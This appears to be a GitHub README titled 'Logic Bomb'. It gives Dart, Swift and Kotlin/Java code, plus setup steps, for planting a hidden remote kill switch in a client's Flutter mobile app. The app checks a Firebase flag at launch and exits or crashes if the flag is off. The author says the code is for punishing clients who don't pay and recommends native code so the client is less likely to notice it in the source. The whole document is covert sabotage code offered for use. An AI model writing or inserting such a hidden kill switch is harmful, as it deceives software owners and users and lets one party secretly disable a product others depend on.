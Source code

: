 # Logic Bomb

## Control app crashing using Firebase or REST API ( Dart, Kotlin and Swift ).

#### Hom many times did you work hard and didn't get paid ? 

This code was created to protect myself from clients. 
A client may come to you wants to complete a project, when you upload the app on stores, he disappears and not pays for you.

### Do not abuse this code.

I am not responsible for any misuse of this code.

### Code is written in :
- #### Dart
- #### Swift
- #### Kotlin

I made it in native to make the code more invisible if he got the source code.

## Implementation Time 

you need  to implement only Dart OR Both Kotlin & Swift.

I recommend to implement Native code to make it more invisible.

## Dart
in your main file 
import 
```
import 'package:dio/dio.dart';
import 'dart:io';
```
in main file paste this function
```
void plant() async {
  try {
    final result = await Dio().get('$HERE_IS_YOUR_FIREBASE_PROJECT_LINK/app.json');
    final data = result.data;
    if (Platform.isAndroid && !data['android']) {
      throw Exception();
    } else if (Platform.isIOS && !data['ios']) {
      throw Exception();
    }
  } catch (_) {
    exit(0);
  }
}
```
in main function plant your bomb
```
void main() {
  plant();
  runApp(MyApp());
}
```

## Swift
ios -> Runner -> AppDelegate.swift
then put this code

 ```
import UIKit
import Flutter

@UIApplicationMain
@objc class AppDelegate: FlutterAppDelegate {
  override func application(
    _ application: UIApplication,
    didFinishLaunchingWithOptions launchOptions: [UIApplication.LaunchOptionsKey: Any]?
  ) -> Bool {
    GeneratedPluginRegistrant.register(with: self)
    plant()
    return super.application(application, didFinishLaunchingWithOptions: launchOptions)
  }

  func plant() {
          let api = "$HERE_IS_YOUR_FIREBASE_PROJECT_LINK/app.json"
          let url = URL(string: api)!
          do {
              let data = try Data(contentsOf: url)
              let json = try JSONSerialization.jsonObject(with: data) as! [String:Any]
              if (json["ios"] as! Int == 0) {
                   fatalError()
              }
          } catch {
              fatalError()
          }
      }

}
 ```

## Android
in android -> app -> src -> main -> AndroidManifest.xml
put Internet Permission
```
    <uses-permission android:name="android.permission.INTERNET" />
```
then go to android -> app -> src -> main -> kotlin 
beside MainActivity
create new JavaClass Named Bomb and paste this code inside
```
package $HERE_IS_YOUR_APP_PACKAGE_NAME;

import java.io.*;
import java.net.HttpURLConnection;
import java.net.URL;

public class Bomb {

    void plant() throws IOException {
        Thread thread = new Thread(new Runnable() {

            @Override
            public void run() {
                try {
                    URL url = new URL("$HERE_IS_YOUR_FIREBASE_PROJECT_LINK/app.json");
                    HttpURLConnection urlConnection = (HttpURLConnection) url.openConnection();
                    urlConnection.setRequestMethod("GET");
                    BufferedReader in = new BufferedReader(new InputStreamReader(urlConnection.getInputStream()));
                    StringBuffer sb = new StringBuffer();
                    String line;
                    while ((line = in.readLine()) != null) {
                        sb.append(line);
                    }
                    in.close();
                    if (sb.toString().contains("\"android\":false")) {
                        throw new RuntimeException("");
                    }
                } catch (Exception e) {
                    throw new RuntimeException("");
                }
            }
        });

        thread.start();
    }

}
```
and in MainActivity file
paste this code 
```
package $HERE_IS_YOUR_APP_PACKAGE_NAME

import io.flutter.embedding.android.FlutterActivity
import io.flutter.embedding.engine.FlutterEngine

class MainActivity: FlutterActivity() {
    override fun configureFlutterEngine(flutterEngine: FlutterEngine) {
        super.configureFlutterEngine(flutterEngine)
        Bomb().plant()
    }

}
```

## Firebase Setup :
To get your firebase project link follow these Screenshots and don't miss any step OR it won't work.
## 1
![](firebase_setup_screenshots/1.png)
## 2
![](firebase_setup_screenshots/2.png)
## 3
![](firebase_setup_screenshots/3.png)
## 4
![](firebase_setup_screenshots/4.png)
## 5
![](firebase_setup_screenshots/5.png)
## 6
![](firebase_setup_screenshots/6.png)
## 7
![](firebase_setup_screenshots/7.png)
## 8
![](firebase_setup_screenshots/8.png)

## Example : 
```
https://logic-bomb-896dd-default-rtdb.firebaseio.com/app.json
```
